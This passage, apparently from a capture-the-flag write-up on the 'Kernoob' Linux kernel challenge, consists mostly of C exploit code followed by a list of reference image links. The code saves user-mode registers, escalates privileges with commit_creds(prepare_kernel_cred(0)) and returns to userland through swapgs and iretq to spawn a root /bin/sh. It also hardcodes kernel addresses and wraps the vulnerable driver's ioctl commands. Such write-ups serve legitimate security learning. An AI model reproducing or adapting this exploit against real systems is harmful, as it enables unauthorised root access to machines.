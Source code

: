```C
	__asm__(
        "movq %%cs, %0;"
	    "movq %%ss, %1;"
		"movq %%rsp,%2;"
		"pushfq;"
		"popq %3;"
        :"=r"(user_cs),"=r"(user_ss),"=r"(user_sp),"=r"(user_rflags)
        :
        :"memory"
		);
	puts("[*]status has been saved.");
}

void get_shell(){
    system("/bin/sh");
}

void get_root() {
    commit_creds(prepare_kernel_cred(0));
    asm(
    "push %0\n"
    "push %1\n"
    "push %2\n"
    "push %3\n"
    "push %4\n"
    "push $0\n"
    "swapgs\n"
    "pop %%rbp\n"
    "iretq\n"
    :
    :"m"(user_ss),"m"(user_sp),"m"(user_rflags),"m"(user_cs),"a"(&get_shell)
    );
}

#define X_A_S 0xffffffff8101db17
#define ko_base 0xffffffffc0002000
#define modprobe_path 0xffffffff8245aba0  
#define ADD 0x30000
#define DEL 0x30001
#define EDIT 0x30002
#define SHOW 0x30003
#define SIZE 0x70

struct noob{
    unsigned long index;
    void* ptr;
    unsigned long size;
};

void add(int fd, unsigned long index, unsigned long size){
    struct noob arg;
    arg.index = index;
    arg.size = size;
    ioctl(fd, ADD, &arg);
}

void delete(int fd, unsigned long index){
    struct noob arg;
    arg.index = index;
    ioctl(fd, DEL, &arg);
}

void edit(int fd, unsigned long index, void* point, unsigned long size){
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png